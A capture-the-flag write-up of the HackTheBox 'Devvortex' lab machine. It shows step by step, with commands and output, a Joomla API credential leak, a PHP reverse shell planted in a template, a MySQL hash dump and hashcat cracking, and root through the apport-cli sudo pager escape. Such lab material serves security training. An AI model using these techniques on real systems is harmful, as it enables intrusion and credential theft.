

# Devvortex

Linux HackTheBox machine

### Recon

nmap scan:

`nmap -p- -T5 10.10.11.242 -v` (shows port 22 and 80 open)
`nmap -p 22,80 -A 10.10.11.242 -v` (get detailed info about open ports)



There is form on the website, doesn’t seem to work, the request doesn’t send any information inputted by user. I tried few basic XSS and SSTI payloads but to no avail.


Used ffuf to search for virtual interfaces, **dev.devvortex.htb** stood out


So I added it to /etc/hosts.


Website is running as expected


I ran gobuster to check for subdomains: `gobuster dir -u [http://dev.devvortex.htb](http://dev.devvortex.htb/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`  

on **/administrator** is running J**oomla**

On [stackoverflow](https://stackoverflow.com/questions/45359730/how-to-detect-joomla-website) I found that you can view the Joomla version in this file [http://dev.devvortex.htb/administrator/manifests/files/joomla.xml](http://dev.devvortex.htb/administrator/manifests/files/joomla.xml)


File shows that the **Joomla version is 4.2.6** and there is **sql present**

I tried several logins like admin:admin but none of them got me in, so I searched for Joomla vulnerabilities and I found [this](https://vulncheck.com/blog/joomla-for-rce).

I used the payload and it worked!

```bash
└─$ curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
* Host dev.devvortex.htb:80 was resolved.                                                                                                                                      
* IPv6: (none)                                                                                                                                                                 
* IPv4: 10.10.11.242                                                                                                                                                           
*   Trying 10.10.11.242:80...                                                                                                                                                  
* Connected to dev.devvortex.htb (10.10.11.242) port 80                                                                                                                        
> GET /api/index.php/v1/config/application?public=true HTTP/1.1                                                                                                                
> Host: dev.devvortex.htb                                                                                                                                                      
> User-Agent: curl/8.8.0                                                                                                                                                       
> Accept: */*                                                                                                                                                                  
>                                                                                                                                                                              
* Request completely sent off                                                                                                                                                  
< HTTP/1.1 200 OK                                                                                                                                                              
< Server: nginx/1.18.0 (Ubuntu)                                                                                                                                                
< Date: Mon, 11 Nov 2024 10:20:34 GMT                                                                                                                                          
< Content-Type: application/vnd.api+json; charset=utf-8                                                                                                                        
< Transfer-Encoding: chunked                                                                                                                                                   
< Connection: keep-alive                                                                                                                                                       
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Mon, 11 Nov 2024 10:20:34 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"**lewis**","id":224}},{"type":"application","id":"224","attributes":{"password":"**P4ntherg0t1n5r3c0n##**","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The username and password is hidden in the code: **lewis:P4ntherg0t1n5r3c0n##**

I logged into Joomla and I’m admin! I tried to ssh into the machine but the credentials are not the same.


I exploited Joomla few times already so I knew what to do. I went into templates folder (System→ Site Templates→Cassiopeia Details and Files) and pasted [php code for reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into error.php, I setted up a listener and went to [http://dev.devvortex.htb/templates/cassiopeia/error.php](http://dev.devvortex.htb/templates/cassiopeia/error.php) and I received www-data shell


Logged into mysql with lewis credentials and found table sd4fd_users with password hashes

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
mysql> select name,username,password from sd4fg_users;
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| lewis      | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+--------------------------------------------------------------+

```

I stored the logan hash in separate file on my machine and run hashcat on it

```bash
┌──(adan㉿moon)-[~/Documents/boxes/Devvortex]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt.gz --user
hashcat (v6.2.6) starting in autodetect mode                                                                                                                                   
                                                                                                                                                                               
OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                   
============================================================================================================================================                                   
* Device #1: cpu-skylake-avx512-AMD Ryzen 9 8945HS w/ Radeon 780M Graphics, 6763/13590 MB (2048 MB allocatable), 16MCU                                                         
                                                                                                                                                                               
The following 4 hash-modes match the structure of your input hash:
                                                                                                                                                                               
      # | Name                                                       | Category                                                                                                
  ======+============================================================+======================================                                                                   
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System                                                                                        
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce                                                                                 
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce                                                                                 
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce                                                                                 
                                                                                                                                                                               
Please specify the hash-mode with -m [hash-mode].
```

I just went with the first one and I got it!

```bash
┌──(adan㉿moon)-[~/Documents/boxes/Devvortex]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt.gz --user -m 3200 
...
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

**logan:tequieromucho** ⇒ ssh

```bash
┌──(adan㉿moon)-[~/Documents/boxes/Devvortex]
└─$ ssh logan@10.10.11.242
```

I checked logan’s user permission and found interesting file **apport-cli**

```bash
logan@devvortex:/$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

I found the apport-cli on [github](https://github.com/canonical/apport/tree/main), it is program that intercepts program crashes, collects debugging information about crashes and OS environment, apport-cli also offers tips to users with a problem.

I found an exploit [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC), it works when -c flag is used to inspect .crash files, which are stored in /var/crash but there were none.

I searched for some .crash file online and I found two [here](https://forums.linuxmint.com/viewtopic.php?t=155546), I copied one of them but it didn’t work and apport-cli gave me an error, later I found I could generate my own .crash file like this:

```bash
logan@devvortex:~$ sleep 20 &
[1] 3049
logan@devvortex:~$ kill -ABRT 3049
logan@devvortex:~$ 
[1]+  Aborted                 (core dumped) sleep 20
logan@devvortex:~$ 
```

But when I got the error from the apport-cli, it generated reports as well, so now I got two .crash files:Dd

```bash
logan@devvortex:~$ ls /var/crash
_usr_bin_apport-cli.0.crash  _usr_bin_sleep.1000.crash
```

The exploit works when the crash file is viewed and then just typed !/bin/bash and got the shell!

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli /var/crash/_usr_bin_apport-cli.0.crash 

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (41.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

...

gcc-10-base 10.5.0-1ubuntu1~20.04
gir1.2-glib-2.0 1.64.1-1~ubuntu20.04.1
gpgv 2.2.19-3ubuntu2.2
iso-codes 4.4-1
libacl1 2.2.53-6
!/bin/bash

...

root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```